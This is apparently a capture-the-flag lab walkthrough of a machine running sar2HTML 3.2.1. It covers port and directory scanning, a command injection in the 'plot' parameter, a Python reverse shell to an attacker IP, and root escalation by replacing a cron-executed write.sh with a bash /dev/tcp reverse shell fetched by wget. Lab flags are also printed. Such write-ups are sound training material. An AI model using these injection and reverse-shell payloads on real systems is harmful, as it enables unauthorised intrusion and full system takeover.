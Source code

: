```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```



## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -Pn -p- -A -T5 192.168.179.35
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 13:15 EDT
Warning: 192.168.179.35 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.179.35
Host is up (0.067s latency).
Not shown: 64075 closed tcp ports (conn-refused), 1458 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 319.29 seconds
```

There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

### Directory enumeration

Let's perform some directory brute forcing using `ffuf` to check what web directories are present.

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.179.35/FUZZ
________________________________________________

.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 65ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 67ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 791ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 64ms]
phpinfo.php             [Status: 200, Size: 95464, Words: 4716, Lines: 1170, Duration: 118ms]
robots.txt              [Status: 200, Size: 9, Words: 1, Lines: 2, Duration: 66ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 67ms]
:: Progress: [4614/4614] :: Job [1/1] :: 598 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

Let's visit the `robots.txt` page. There's usually something useful there.

![1](https://github.com/user-attachments/assets/6d51d15a-54a7-4127-9843-1d6e0b4560fb)

The `sar2HTML` page is being blocked for crawlers. That is why it did not show up in the `ffuf` scan. 

Let's visit the page.

![2](https://github.com/user-attachments/assets/caf167bf-bfa6-4c50-9fcb-bda6f94fe510)

&nbsp;

## Exploitation

### Searching for relevant exploit.

We can look up exploits for sar2HTML version `3.2.1`.
[This](https://www.exploit-db.com/exploits/47204) exploit shows up:

![3](https://github.com/user-attachments/assets/233e3976-00af-41cd-9de9-098ffd8186b8)

Let's check the exploit using the following URI:

```
192.168.179.35/sar2HTML/index.php?plot=;ls
```

![4](https://github.com/user-attachments/assets/a27a511b-071a-465f-ac79-c29c960bcabf)

### Obtaining a reverse shell

In order to obtain a reverse shell, we need to first set up a `nc` listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
```

Now, we can enter the following URI:

```
192.168.179.35/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.234",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Let's check back on our listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.179.35] 34638
bash: cannot set terminal process group (975): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sar:/var/www/html/sar2HTML$ 
```

&nbsp;

## Post Exploitation

### local.txt

```
www-data@sar:/var/www/html/sar2HTML$ cat /home/local.txt
cat /home/local.txt
e6f25e304acccc7b3b947383c66f2aef
```

### Privilege Escalation

#### Checking scheduled Cron jobs

We can check if there are any Cron jobs scheduled by displaying the contents of the `/etc/crontab` file.

```
www-data@sar:/var/www/html/sar2HTML$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

The `./finally.sh` file is executed every 5th minute with `root` privileges.

We can verify this using [crontab guru](https://crontab.guru/)

![5](https://github.com/user-attachments/assets/49a4c19a-6d43-435f-812a-b897baa8ee60)

Unfortunately, we cannot edit the `./finally.sh` file.
Let's check what it is doing.

```
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
```

So it execute another file called `./write.sh`.

#### Exploiting scheduled Cron job

Let's delete this `./write.sh` file.

```
www-data@sar:/var/www/html$ rm write.sh
rm write.sh
```

Now, in our attacker machine we can create another `./write.sh` file containing a reverse shell script.

```bash title="write.sh"
#!/bin/bash  

bash -i >& /dev/tcp/192.168.45.234/9998 0>&1
```

Next we can transport the file to the target.

```
www-data@sar:/var/www/html$ wget http://192.168.45.234:8000/write.sh
wget http://192.168.45.234:8000/write.sh
--2024-08-10 23:29:05--  http://192.168.45.234:8000/write.sh
Connecting to 192.168.45.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60 [text/x-sh]
Saving to: 'write.sh'

     0K                                                       100% 15.0M=0s

2024-08-10 23:29:05 (15.0 MB/s) - 'write.sh' saved [60/60]
```

Let's make the file executable.

```
www-data@sar:/var/www/html$ chmod +x write.sh
chmod +x write.sh
```

Now, we have to set up a `nc` listener and wait.

```
$ nc -nlvp 9998                  
listening on [any] 9998 ...
```

After some time the Cron job will be executed and we will obtain a reverse shell with `root` privileges.

```
$ nc -nlvp 9998                  
listening on [any] 9998 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.179.35] 54846
bash: cannot set terminal process group (3286): Inappropriate ioctl for device
bash: no job control in this shell
root@sar:/var/www/html# 
```

### proof.txt

```
root@sar:/var/www/html# cd /root
cd /root
root@sar:~# 
```

```
root@sar:~# cat proof.txt
cat proof.txt
c07959ab9321d3dd66064bddacc012ea
```
